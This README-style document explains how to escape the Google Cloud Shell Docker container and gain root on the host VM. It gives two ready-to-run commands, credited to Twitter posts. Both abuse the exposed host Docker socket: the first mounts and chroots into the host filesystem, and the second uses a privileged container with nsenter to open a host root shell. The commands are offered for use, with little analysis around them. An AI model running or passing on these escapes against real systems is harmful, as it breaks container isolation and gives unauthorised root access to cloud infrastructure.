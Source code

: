 # GCP Cloud Shell Docker Escape
This allows anyone to access the host VM that is running the Cloud Shell Docker container as the root user. Just run one of the following commands from within your GCP Cloud Shell to escape it.

## v1 (The original version)
*Source:* https://twitter.com/SpenGietz/status/1166752505889316864
*Command:* sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
![Example of the original Docker escape](./images/EscapeExample.jpg)
*Note:* It was pointed out by another user on Twitter (@Quintus23M) that the command above is not actually a full Docker escape. It essentially mounts the host file system within the container, giving you access to the host, but not giving you full root access to it. That user kindly responded with an alternative command to fully escape the container and be the root user on the host VM (v2 below).

## v2 (The better version)
*Source:* https://twitter.com/Quintus23M/status/1166828814091112449
*Command:* sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
	- I personally replace "debian" with "ubuntu" and "sh" with "/bin/bash", but it's all preference.
![Example of the better Docker escape](./images/BetterEscapeExample.jpg)
